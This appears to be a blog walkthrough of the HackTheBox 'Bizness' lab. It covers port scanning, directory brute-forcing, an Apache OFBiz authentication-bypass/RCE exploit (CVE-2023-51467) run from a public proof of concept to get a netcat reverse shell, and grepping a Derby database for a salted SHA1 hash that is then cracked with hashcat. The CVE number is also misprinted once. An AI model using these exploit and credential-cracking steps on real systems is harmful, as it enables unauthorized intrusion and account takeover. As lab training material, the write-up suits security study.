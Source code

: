 +++ 
draft = false
date = 2024-02-02T13:07:16+01:00
title = "Bizness HTB Walkthrough"
description = "testestestestest"
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Hash Cracking", "Hashcat", "CVE-2023-51457", "Dirsearch","Grep","Find"]
categories = []
externalLink = ""
series = []
+++


![image](15.png#center)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The Bizness HTB machine is an easy difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

        - Dirsearch
        - CVE-2023-51467
        - Grep, find and strings
        - Hashcat


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.252 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](1.png)

It looks like ports 20 and 80 and 443 are open. Classic open ports for SSH and HTTP/HTTPS. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80,443 10.10.11.252 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](2.png)

## Directory discovery

Now lets try to enumerate subdirectories via brute force with Dirsearch, a open-source python tool that can be found in [GitHub](https://github.com/maurosoria/dirsearch.git). 

First, we add the website to our /etc/hosts file and then we run the following command:

```sh
dirsearch -u https://bizness.htb/ --exclude-status 403,404
```

![image](5.png)

The directory bruteforce reveals the /control/login page. There is nothing of interest besides the login and Join HTB buttons. 

![image](6.png)

On the down right corner, we can see the release of the OFBiz software.

![image](7.png#center)

Doing some investigation, it turns out that Ofbiz is vulnerable to a authentication bypass and RCE because of [CVE-2023-51467](https://www.cvedetails.com/cve/CVE-2023-51467/ "CVE-2023-51467 security vulnerability details"). 

## Initial access

First we clone a [GitHub PoC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) for CVE-2023-51457 written by the researcher abdoghazy2015. Then, for the PoC to work, we have to download ysoserial-all.jar into the same folder.

```sh
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

The script doesnt work out of the box. However, its because its written to run with openjdk 11. We have the install that version specifically:

```sh
sudo apt-install openjdk-11-jdk
sudo apt-install openjdk-11-jre
```

And then we have to select java 11 by running

```sh
sudo update-alternatives --config java 
```

Now we are ready to execute the exploit. We have to run set up a netcat listener in another terminal by running:

```sh
nc -lvnp 1234
```

This is where we are going to catch the reverse shell. Now, to run the exploit, execute:

```python
python3 exploit.py https://bizness.htb shell 10.10.14.75:1234
```

![image](8.png)

We get the reverse shell.

![image](3.png)

The user flag can be obteined in the /home/ofbiz directory.

![image](4.png)


## Privilege escalation

We now have to enumerate this machine. A quick and easy way is to use the find and grep tools to search for files containing interesting strings like admin and password. If we run the following command...

```sh
find . -type f -name '*Admin*'
```
...we can search for a file that has the string "Admin" in its name. This is how we discover a interesting file:

![image](9.png)
![image](10.png)

By reading the file /framework/resources/templates/AdminUserLoginData.xml, we get some sort of password... but both Hashcat and JohnTheRipper fail to crack it. It might be a salted password, but we have to keep searching in any case.

There is also a Derby database in the machine. There is a lot of data and files, so we need to search efficiently using strings and grep.

```sh
strings -f * | grep -iE "pass"
```

![image](11.png)

It looks like we got another password, in this case it contains the salt. It is the data between the two dollar signs. In this case, the salt is \$d\$.

```sh
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

We have to sanitize the hash first, since it looks encoded. We can use [cyberchef](https://gchq.github.io/CyberChef):

![image](12.png)

Now that we have the hash sanitized, its time to crack it using hashcat.

```sh
echo "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash
```

```sh
hashcat -m 120 -a 0 -d 1 ./hash /usr/share/wordlists/rockyou.txt 
```

We have to use mode 120 for the format of hash that we provided. In this case, it is a SHA1 hash, and the hash format is hash:salt.


![image](13.png)

We got the password!! Now we just have to run su and enter the password to get a root terminal.

![image](14.png)

Lastly, we can grab the root flag and the machine is done!!

![image](15.png#center)

